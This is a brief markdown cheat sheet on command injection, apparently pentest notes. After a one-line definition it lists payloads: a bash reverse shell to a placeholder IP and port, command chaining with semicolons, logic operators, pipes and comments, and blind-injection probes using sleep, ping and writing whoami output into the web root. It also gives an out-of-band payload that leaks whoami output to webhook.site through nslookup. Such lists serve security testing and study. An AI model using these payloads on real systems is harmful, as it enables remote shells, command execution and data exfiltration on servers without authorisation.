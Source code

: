 >[!question] What is Command Injection ?__?
Command injection is a vulnerability that allows an attacker to manipulate an application to execute arbitrary system commands on the server. This occurs when an application passes unsafe data, often user input, to a system shell.

Will try the Bash TCP:
Command :bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
## Exploitation
Basic command chaining
; ls -la

Using logic operators
&& ls -la

Commenting out the rest of a command
; ls -la #

Using a pipe for command chaining
| ls -la

Testing for blind injection
; sleep 10
; ping -c 10 127.0.0.1
& whoami > /var/www/html/whoami.txt &

Out-of-band testing
& nslookup webhook.site/<id>?`whoami` &